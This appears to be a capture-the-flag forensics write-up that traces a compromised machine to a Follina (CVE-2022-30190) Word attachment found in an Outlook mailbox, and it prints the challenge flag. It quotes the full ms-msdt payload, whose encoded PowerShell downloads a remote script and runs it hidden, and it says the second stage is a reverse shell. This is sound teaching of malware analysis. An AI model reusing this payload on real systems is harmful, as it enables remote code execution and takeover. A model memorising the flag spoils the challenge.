 # [FORENSIC] FRS103

---

**Author**: `Evil Duck`

**Difficulty**: `Hard`

**Flag**: `FIA{N0000000000_m4cr0_Try_f0l1n4_1nstead:DDDD_afd9a1434c08aa91b283}`

### Description

> By the last day old year, Jack has recieved an email message from his co-worker, after opening it, his compputer was compromised. Can you help him find the reason why ?

> Note: ***This challenge contains real malware. Please play on a virtual machine, ABSOLUTELY DO NOT PLAY ON A REAL MACHINE. When playing on a virtual machine, to ensure safety, players should take a snapshot of the virtual machine first and set the network card to host-only mode.***

> Link download: [here](https://longthuanstore-my.sharepoint.com/:u:/g/personal/nguyen_google_id_vn/ERnwUOWT3lhLmflk_jEms5IBmT-3C2EzibBphVbPMC5NYw?e=NAqLkZ)
> 

### Objective

> Knowing how to detect Follina, obfuscate powershell
> 

---

# Solution

## Solver

- So in this challenge, we are given an `ad1` file, this is the image from the disk.

- Reading the description, we know that the computer was `compromised` when user try to open an email.

- Quickly research on the internet, we can easily see that the location of `mail` on our disk

<p align="center">
  <img src="https://github.com/P5ySm1th/CTF/assets/100250271/ca15d071-a40b-47a4-888b-8506758a2bdc">
</p>

- Know we can see that the folder of `mail` is `C:/Users/me/AppData/Local/Microsoft/Outlook`

- Searching that, we can find 3 files from the disk

<p align="center">
  <img src="https://github.com/P5ySm1th/CTF/assets/100250271/4639998d-84e8-4134-970a-3a89b3a7b2ba">
</p>

- Export 3 files from the disk and open that. But there is still some mistake. Although this is the `outlook` file, but `outlook` can only recieve `pst` file, not `ost`.

- Reading more about `psd` and `ost` [here](https://support.microsoft.com/vi-vn/office/gi%E1%BB%9Bi-thi%E1%BB%87u-t%E1%BB%87p-d%E1%BB%AF-li%E1%BB%87u-outlook-pst-v%C3%A0-ost-222eaf92-a995-45d9-bde2-f331f60e2790)

- Reasearch from the internet, we can see that we are able to convert from `ost to pst`, i will use `vmail converter`

<p align="center">
  <img src="https://github.com/P5ySm1th/CTF/assets/100250271/5209ec63-9627-4615-97a4-64271e98e331">
</p>

- And wallah, we get this result, viewing the mailbox, we have something to review:

<p align="center">
  <img src="https://github.com/P5ySm1th/CTF/assets/100250271/4d2e7955-2886-44a0-a349-47ce8b8e7a41">
</p>

- We got the attachment, export it and viewing the file: 
<p align="center">
  <img src="https://github.com/P5ySm1th/CTF/assets/100250271/d85d53ac-5f22-4011-9b31-7edc7abe9bb7">
</p>

- We got nothing, but when applying this `doc` on virustotal, we got this: 

<p align="center">
  <img src="https://github.com/P5ySm1th/CTF/assets/100250271/6c0cc8f8-b4e7-40ce-8061-5dc22f5c779d">
</p>

- Look like it was compromised by `CVE-2022-30190`, researching online, we can see that 
> CVE-2022-30190 refers to a vulnerability in the Microsoft Support Diagnostic Tool (MSDT) that affects Microsoft Office versions like Office 2013/2016/2019/2021 and Professional Plus versions. Also known as Follina, this vulnerability allows attackers to potentially execute malicious code, giving them access to view, change or even delete your data.

- Loking deeper in this CVE, we see that there was a malicious was embeded in the `word`

<p align="center">
  <img src="https://github.com/P5ySm1th/CTF/assets/100250271/8395e192-943b-4eb6-b03f-ba61a1957d39">
</p>

- This is the connection from follina CVE-2022-30190

<p align="center">
  <img src="https://whitehat.vn/attachments/anh-whitehat-vn-png.11481/">
</p>

- So now accessing the html page, using `view-source` and we got: 

<p align="center">
  <img src="https://github.com/P5ySm1th/CTF/assets/100250271/fa0e81f3-0420-493e-9446-0b5d481e850d">
</p>

```powershell
window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_SelectProgram=NotListed IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'JHVybCA9ICdodHRwczovL3Jhdy5naXRodWJ1c2VyY29udGVudC5jb20vY2hpZHVvbmcyOTEyL3N1cy9tYWluL3N1cy5wczEnCiRvdXRwdXRQYXRoID0gSm9pbi1QYXRoICRlbnY6VEVNUCAnTWljcm9zb2Z0LlBvd2VyU2hlbGxfcHJvZmlsZS5wczEnCkludm9rZS1XZWJSZXF1ZXN0IC1VcmkgJHVybCAtT3V0RmlsZSAkb3V0cHV0UGF0aApTdGFydC1Qcm9jZXNzIHBvd2Vyc2hlbGwuZXhlIC1Bcmd1bWVudExpc3QgIi1FeGVjdXRpb25Qb2xpY3kgQnlwYXNzIC1GaWxlICRvdXRwdXRQYXRoIiAtV2luZG93U3R5bGUgSGlkZGVu'+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe \"";
```

- The `base64` is a payload, it use `msdt` to trigger `powershell` to execute the `base64` code

<p align="center">
  <img src="https://github.com/P5ySm1th/CTF/assets/100250271/48fbf713-a799-4d1c-8b46-9fa6a8153cc4">
</p>

- From that script, we can see that it take the link from that url and then download and execute. 

- Accessing that `url`, we get another powershell script

<p align="center">
  <img src="https://github.com/P5ySm1th/CTF/assets/100250271/5d354870-e2c6-475d-80ae-b616aba402de">
</p>

- It seems like it was obfuscated. So we will have to deobfuscate. Do a quick research we found that there are a lot of `powershell deobfuscator`.

- To me i will use [PSDecode](https://github.com/R3MRUM/PSDecode), run it and we get the result:

<p align="center">
  <img src="https://github.com/P5ySm1th/CTF/assets/100250271/78423fd7-98cf-4470-b2a4-345f19a3e2ec">
</p>

- This is a `reverse shell` and it connect to `192.168.112.161` and when scrolling down, we get the flag :D 
